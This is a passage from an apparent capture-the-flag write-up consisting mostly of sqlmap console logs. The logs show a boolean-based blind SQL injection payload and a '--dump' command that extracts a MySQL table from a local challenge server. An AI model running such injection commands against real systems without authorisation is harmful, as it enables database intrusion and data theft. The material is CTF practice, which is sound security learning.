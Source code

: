 ```console
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:19:58] [INFO] testing MySQL
[00:19:58] [INFO] confirming MySQL
[00:19:58] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[00:19:58] [INFO] fetching columns for table 'Search' in database 'SqliDB'
[00:19:58] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:19:58] [INFO] retrieved: 1
[00:20:01] [INFO] retrieved: items
[00:20:21] [INFO] retrieved: varchar(100)
Database: SqliDB
Table: Search
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| items  | varchar(100) |
+--------+--------------+

[00:21:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 00:21:08


root@kali:/media/sf_CTFs/tamu/Onboarding_Checklist# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B  -D SqliDB -T Search --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:21:31

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[00:21:33] [INFO] testing connection to the target URL
[00:21:34] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:21:34] [INFO] testing MySQL
[00:21:34] [INFO] confirming MySQL
[00:21:34] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[00:21:34] [INFO] fetching columns for table 'Search' in database 'SqliDB'
[00:21:34] [INFO] resumed: 1
[00:21:34] [INFO] resumed: items
```